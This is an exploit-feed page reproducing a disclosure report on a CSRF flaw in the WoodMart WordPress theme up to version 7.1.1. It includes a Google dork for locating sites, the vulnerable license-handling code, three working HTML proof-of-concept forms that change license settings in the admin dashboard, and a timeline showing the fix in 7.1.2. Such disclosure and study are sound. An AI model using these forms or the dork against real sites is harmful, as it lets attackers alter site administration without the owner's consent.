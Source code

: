 ```yaml
---
title: WordPress WoodMart Theme 7.1.1 Cross Site Request Forgery Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38237&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-01
fetch_date: 2025-10-04T08:18:37.760646
---
```


# WordPress WoodMart Theme 7.1.1 Cross Site Request Forgery Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress WoodMart Theme 7.1.1 Cross Site Request Forgery Vulnerability

2023-02-28 | CVSS 6.9

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38237
==== [ Z://USB-00_RESEARCH/WORDPRESS/ ] ============================================= [ 2023 ] ==

Report Title:        WordPress WoodMart Theme <= 7.1.1 - Theme License Options Change via CSRF
Google Dork:         inurl:/wp-content/themes/woodmart/
Research Date:       2023-02-10
Researcher:          FearZzZz [ https://fearzzzz.ru ]
Component Vendor:    XTemos [ https://themeforest.net/user/xtemos ]
Vulnerable Version:  <= 7.1.1
Component Link:      https://themeforest.net/item/woodmart-woocommerce-wordpress-theme/20264492
CVSS Base Score:     5.4 (Medium)
CVSS Vector String:  CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:L
OWASP Top 10:        A01: 2021 – Broken Access Control
CWE:                 CWE-352
CVE:                 TBA

=================================================================================================

#### [ Description: ]

The WoodMart theme for WordPress is vulnerable to Cross-Site Request Forgery (CSRF) in versions up to, and including, v7.1.1, because of missing nonce validation on the 'process_form' function. This vulnerability could allow an attacker to trick users into performing an action they didn't intend to perform under their current authentication.

#### [ Vulnerable Code: ]

File #0: ~/woodmart/inc/classes/License.php, lines: 134-143.

```
if ( isset( $_POST['purchase-code-deactivate'] ) ) {
  $this->deactivate();
  $this->_notices->add_success( 'Theme license is successfully deactivated.' );
  return;
}

if ( isset( $_POST['woodmart-purchase-code'] ) && ( ! isset( $_POST['agree_stored'] ) || empty( $_POST['agree_stored'] ) ) ) {
  $this->_notices->add_error( 'You must agree to store your purchase code and user data by xtemos.com' );
  return;
}
```

#### [ Impact: ]

Impact of a CSRF vulnerability is related to the privileges of the target user. Depending on the nature of the action, an attacker might be able to change some data or gain full control over the user's account. If the compromised user has a privileged role (administrator, i.e.) within the application, then the attacker can gain full control over the application.

#### [ Proof-of-Concept: ]

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://fearzzzz.ru/wp-admin/admin.php?page=xts_dashboard&tab=wizard&step=activation" method="POST">
      <input type="hidden" name="purchase-code" value="Z" />
      <input type="hidden" name="agree_stored" value="on" />
      <input type="hidden" name="woodmart-purchase-code" value="Activate theme" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://fearzzzz.ru/wp-admin/admin.php?page=xts_license" method="POST">
      <input type="hidden" name="purchase-code" value="Z" />
      <input type="hidden" name="agree_stored" value="on" />
      <input type="hidden" name="woodmart-purchase-code" value="Activate theme" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://fearzzzz.ru/wp-admin/admin.php?page=xts_license" method="POST">
      <input type="hidden" name="purchase-code-deactivate" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

#### [ Timeline: ]

2023.02.10 - Vulnerability has been discovered.
2023.02.13 - WoodMart Theme v7.1.0 released.
2023.02.14 - WoodMart Theme v7.1.1 released.
2023.02.14 - Vendor notified, received a quick response.
2023.02.14 - All the details was addressed to Envato and Patchstack. CVE ID requested.
2023.02.15 - WoodMart Theme v7.1.2 released, the vulnerability has been fixed.

#### [ Contacts: ]

Website:   fearzzzz.ru
Email:     [email protected]
Twitter:   https://twitter.com/fear_zzzz
Medium:    https://fearzzzz.medium.com
GitHub:    https://github.com/fearzzzz
YouTube:   https://youtube.com/@fearzzzz

#### [ Notes: ]

Special thanks to Mikhail Kobzarev (https://t.me/mihdan | https://wp-digest.com) for providing the original theme files.

Additional greetings to Kailoon (ThemeForest Senior Reviewer, https://kailoon.com) and XTemos Studio (https://themeforest.net/user/xtemos) for the prompt response.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)